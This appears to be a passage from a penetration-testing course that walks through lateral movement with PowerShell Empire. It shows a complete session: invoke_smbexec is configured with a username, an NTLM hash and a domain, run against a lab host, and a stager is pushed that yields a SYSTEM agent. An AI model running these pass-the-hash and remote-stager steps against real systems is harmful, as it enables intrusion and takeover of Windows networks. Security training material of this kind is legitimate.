 We can use either the set CredID command to specify the ID number of the entry
from the credentials store or manually enter all the credentials. Note that in this
case, the passwords for both Offsec and Jeff_admin coincide.


(Empire: K678VC13) > usemodule lateral_movement/invoke_smbexec
(Empire: powershell/lateral_movement/invoke_smbexec) > info
 Name: Invoke-SMBExec
 Module: powershell/lateral_movement/invoke_smbexec
 NeedsAdmin: False
 OpsecSafe: True
 Language: powershell
MinLanguageVersion: 2
 Background: False
 OutputExtension: None
...
Options:
Name Required Value Description
---- -------- ------- -----------
CredID False CredID from the store to use.
ComputerName True Host[s] to execute the stager on, comma
 separated.
Service False Name of service to create and delete.
 Defaults to 20 char random.
ProxyCreds False default Proxy credentials
 ([domain\]username:password) to use for
 request (default, none, or other).
Username True Username.
Domain False Domain.
Hash True NTLM Hash in LM:NTLM or NTLM format.
Agent True K678VC13 Agent to run module on.
Listener True Listener to use.
...
(Empire: powershell/lateral_movement/invoke_smbexec) > set ComputerName client251
(Empire: powershell/lateral_movement/invoke_smbexec) > set Listener http
(Empire: powershell/lateral_movement/invoke_smbexec) > set Username jeff_admin
(Empire: powershell/lateral_movement/invoke_smbexec) > set Hash e2b475c11da2a0748290d8
7aa966c327
(Empire: powershell/lateral_movement/invoke_smbexec) > set Domain corp.com
(Empire: powershell/lateral_movement/invoke_smbexec) > execute
Command executed with service CVTERKCMPMMECQLRWLKB on client251
[*] Sending POWERSHELL stager (stage 1) to 10.11.0.22
[*] New agent UXVZ2NC3 checked in
[+] Initial agent UXVZ2NC3 from 10.11.0.22 now active (Slack)
...


Excellent! The agent was successfully deployed and we can now interact with it:

(Empire: K678VC13) > agents
[*] Active agents:
Name Lang Internal IP Machine Name Username Process Delay
--------- ---- ----------- ------------ --------- ------- -----
S2Y5XW1L ps 10.11.0.22 CLIENT251 corp\offsec powershell/2976 5/0.0
DWZ49BAP ps 10.11.0.22 CLIENT251 corp\offsec explorer/3568 5/0.0
K678VC13 ps 10.11.0.22 CLIENT251 *corp\offsec powershell/6236 5/0.0
UXVZ2NC3 ps 10.11.0.22 CLIENT251 *corp\SYSTEM powershell/3912 5/0.0
(Empire: agents) > interact UXVZ2NC3
(Empire: UXVZ2NC3) > 
23.3 Switching Between Empire and Metasploit
